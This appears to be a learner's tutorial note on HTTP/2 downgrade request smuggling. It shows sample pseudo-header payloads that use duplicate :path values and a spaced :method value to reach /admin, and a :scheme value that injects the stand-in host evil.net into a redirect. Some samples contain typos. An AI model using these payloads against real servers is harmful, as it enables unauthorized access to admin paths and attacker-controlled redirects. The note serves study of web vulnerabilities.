 - send a request in http/1 is not possible , due to request line parsing, but path in `http/2` is specified using pseudo headers, we can send request with 2 distict paths as follow

```
:method  POST
:path /anything
:path /admin
:authority  vulnerable-website.com

```

## injecting full requet line

- during downgrading, value of `:method` pseudo-header will be written to very begining of the resulting HTTP/1 request.
- if server allows us to include spaces in `:method` value , we may inject entirely different request line
**front-end(HTTP/2)**

```
:method  GET /admin HTTP/1.1
: path /anything
;authority vulnerable-web.com

```

**back-end(http/1.1)**

```
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vuln-web.com

```

## Injecting a URl prefix

- another feture of HTTP/2 is ability to explicitly specify a scheme in the request using `:scheme` pseudo-header, ordinay just contain http or https but we include arbitrary values
**request**

```
:method GET
:path /anything
:authority vuln-web.com
:scheme <https://evil.net>

```

**Response**

```
:status 301
location  <https://evil.net>://vuln-web.com/anything/

```
